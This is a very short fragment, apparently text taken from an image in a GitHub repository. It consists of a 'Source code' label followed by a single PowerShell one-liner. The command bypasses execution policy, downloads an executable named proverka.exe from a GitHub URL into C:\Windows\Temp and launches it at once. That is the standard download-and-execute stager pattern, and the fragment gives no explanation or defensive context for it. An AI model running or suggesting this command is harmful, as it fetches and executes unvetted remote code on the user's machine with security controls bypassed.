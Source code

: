 powershell -ExecutionPolicy bypass -command "(New-Object System.Net.WebClient).DownloadFile('https://github.com/tokahiri/proverka/raw/main/proverka.exe', 'C:\Windows\Temp\proverka.exe'); Start-Process ('C:\Windows\Temp\proverka.exe')"
